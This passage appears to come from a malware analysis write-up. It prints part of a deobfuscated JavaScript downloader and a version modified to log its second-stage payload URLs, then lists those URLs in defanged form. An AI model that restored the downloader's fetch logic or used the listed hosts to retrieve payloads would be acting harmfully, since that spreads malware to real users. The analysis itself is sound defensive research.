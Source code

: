 ```javascript deobfuscated.js
				}
				e.close();
			}
		};
		try {
			r.open("GET", "hxxp://" + t[M] + "/get.php?dgfdfg=" + Math.random() + "&key=" + key + e, !1), r.send();
		} catch(a) {

		}
		if(1 == E) break;
	}
}

key = "f5", gorut(""), gorut("&pdf=search");
```
Removing a few lines in `gorut()` routine of the download script allows to print out download links for the two payloads it attempts to get. Basically you need to remove the ActiveX code and modify `r.open` to `console.log` function removing the `!1` parameter. Running this in node.js will give us a list of payload downloads for the second stage.

```javascript modified_function.js
function gorut(e){
	var t = "14-MASOOM.COM JLINKSMS.COM CHEAPRIZESMS.COM ELEMENTGUMRUK[.]COM/language IBMDATACAP[.]COM/wp-content/themes/academy WELLNESSHERBAL[.]COM/wp-content/themes/tiny-framework ITSMYTEA[.]COM/xmlrpc www.LANDTOURJAPAN[.]COM INTEGRITYSMSNG[.]COM CREATIVEFOODSTYLIST[.]COM www.KMDERUNJEWELRY[.]COM ADENYAOTELEET[.]COM MAJORCASE[.]ORG ISTANBULKLIMA[.]ORG ENTHELP[.]COM HEALINGSPRINGWORKSHOPS[.]COM/wp-content/themes/travel-blogger TUGRAHOTELS[.]COM www.florianbruening[.]com JUALTOWERTRIANGLE[.]COM MAAKCARD[.]COM www.jakimbost[.]pl THEVILLAGEVETERINARYHOSPITAL[.]COM".split(" ");

	ex = "" == e ? ".exe" : ".pdf";
	for(var M = 0; M < t.length; M++) {
		console.log("GET", "hxxp://" + t[M] + "/get.php?dgfdfg=" + Math.random() + "&key=" + key + e);
	}
}
```

#### Payload Links
	GET hxxp://14-MASOOM[.]COM/get.php?dgfdfg=0.2042055584024638&key=f5
	GET hxxp://JLINKSMS[.]COM/get.php?dgfdfg=0.4357860581949353&key=f5
	GET hxxp://CHEAPRIZESMS[.]COM/get.php?dgfdfg=0.9873443075921386&key=f5
	GET hxxp://ELEMENTGUMRUK[.]COM/language/get.php?dgfdfg=0.697707447456196&key=f5
	GET hxxp://IBMDATACAP[.]COM/wp-content/themes/academy/get.php?dgfdfg=0.21713185170665383&key=f5
	GET hxxp://WELLNESSHERBAL[.]COM/wp-content/themes/tiny-framework/get.php?dgfdfg=0.5791356258559972&key=f5
	GET hxxp://ITSMYTEA[.]COM/xmlrpc/get.php?dgfdfg=0.5410346924327314&key=f5
	GET hxxp://www.LANDTOURJAPAN[.]COM/get.php?dgfdfg=0.418818884762004&key=f5
	GET hxxp://INTEGRITYSMSNG[.]COM/get.php?dgfdfg=0.029143808409571648&key=f5
	GET hxxp://CREATIVEFOODSTYLIST[.]COM/get.php?dgfdfg=0.3915193013381213&key=f5
	GET hxxp://www.KMDERUNJEWELRY[.]COM/get.php?dgfdfg=0.07052874471992254&key=f5
	GET hxxp://ADENYAOTELEET[.]COM/get.php?dgfdfg=0.8330098567530513&key=f5
	GET hxxp://MAJORCASE[.]ORG/get.php?dgfdfg=0.5714250793680549&key=f5
	GET hxxp://ISTANBULKLIMA[.]ORG/get.php?dgfdfg=0.6278960527852178&key=f5
	GET hxxp://ENTHELP[.]COM/get.php?dgfdfg=0.48202996351756155&key=f5
	GET hxxp://HEALINGSPRINGWORKSHOPS[.]COM/wp-content/themes/travel-blogger/get.php?dgfdfg=0.2205682178027928&key=f5
	GET hxxp://TUGRAHOTELS[.]COM/get.php?dgfdfg=0.5332026502583176&key=f5
	GET hxxp://www.florianbruening[.]com/get.php?dgfdfg=0.0033856993541121483&key=f5
	GET hxxp://JUALTOWERTRIANGLE[.]COM/get.php?dgfdfg=0.7687414824031293&key=f5
	GET hxxp://MAAKCARD[.]COM/get.php?dgfdfg=0.14662570762448013&key=f5
	GET hxxp://www.jakimbost[.]pl/get.php?dgfdfg=0.4327525827102363&key=f5
	GET hxxp://THEVILLAGEVETERINARYHOSPITAL[.]COM/get.php?dgfdfg=0.48534721904434264&key=f5
	GET hxxp://14-MASOOM[.]COM/get.php?dgfdfg=0.6709314966574311&key=f5&pdf=search